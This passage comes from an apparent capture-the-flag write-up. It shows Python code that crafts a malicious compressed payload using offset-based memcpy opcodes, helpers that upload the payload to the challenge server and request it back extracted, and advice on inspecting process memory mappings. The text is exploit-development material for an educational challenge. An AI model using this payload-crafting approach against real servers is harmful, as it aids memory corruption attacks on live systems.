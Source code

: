 ```py
        self.content += b'\x02'
        self.content += p64(off)
        self.cur += 9

    def memcpy(self, off, count):
        # memcpy(out, out-off, count);
        self.content += b'\x03'
        self.content += p64(off)
        self.content += p64(count)
        self.cur += 17
```

# 4. Interacting with the binary

Before diving into the exploitation phase, It is always good to build something that let you easily interact with the binary, to avoid wasting time.

```py
import requests

def uploadFile(blob: bytes, fileid: int):
    assert (fileid < (1<<31) - 1)

    multipart_form_data = {
        'file': (f'payload_{fileid}', blob),
    }

    res = requests.post(
        f"http://{SERVER_IP}:{SERVER_PORT}/upload/{fileid}",
        files=multipart_form_data
    )

    return res

def getFile(fileid: int, extract="true"):
    res = requests.get(f"http://{SERVER_IP}:{SERVER_PORT}/files/{fileid}?extract={extract}")
    return res
```

### Inspect the memory mappings of the challenge

That was very important to me when trying to solve the challenge, I stared at the memory mappings for a lot of time.

To do this, you can spawn a local instance of the challenge and read the process maps after doing some operations.

<p align="center"> <img src="./images/read-proc-mappings.png" ><br/> <i></i><p/> 


## 4.2 isAddrMapped oracle
